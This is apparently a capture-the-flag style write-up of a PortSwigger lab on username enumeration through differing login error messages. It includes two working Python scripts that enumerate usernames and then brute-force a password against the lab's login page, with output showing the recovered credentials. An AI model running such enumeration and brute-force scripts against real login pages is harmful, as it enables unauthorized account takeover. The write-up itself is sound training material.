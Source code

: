 # Username enumeration via different responses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses), you'll learn: Username enumeration via different responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221032856.png)

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221032908.png)

**Let's try a username:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221033010.png)

As you can see, when we input a wrong username, it has an error: `Invalid username`.

**Armed with that information, we can enumerate all usernames via a list of username.**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username' not in loginRequestText:
        print(f'[+] Found user: {username}')

def main():
    url = 'https://0a8400030305e48fc1f053e7000a00e9.web-security-academy.net/login'
    cookie = {'session': 'TJrmhzUBietntmaad88AmJSOn8rzuPU5'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    for username in listUsername:
        thread = Thread(target=sendRequest, args=(url, cookie, username))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username.py
[+] Found user: al
```

- Found user `al`.

Next, we need to brute force that account's password.

**But first, let's try to type an invalid password:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221034626.png)

**Again, we can do the same thing via python:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'al',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Incorrect password' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0a8400030305e48fc1f053e7000a00e9.web-security-academy.net/login'
    cookie = {'session': 'TJrmhzUBietntmaad88AmJSOn8rzuPU5'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password.py
[+] Found password: qwertyuiop
```

- Found user `al`'s password: `qwertyuiop`.

**Let's login as that user!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221035025.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221035031.png)

We're user `al`!

# What we've learned:

1. Username enumeration via different responses
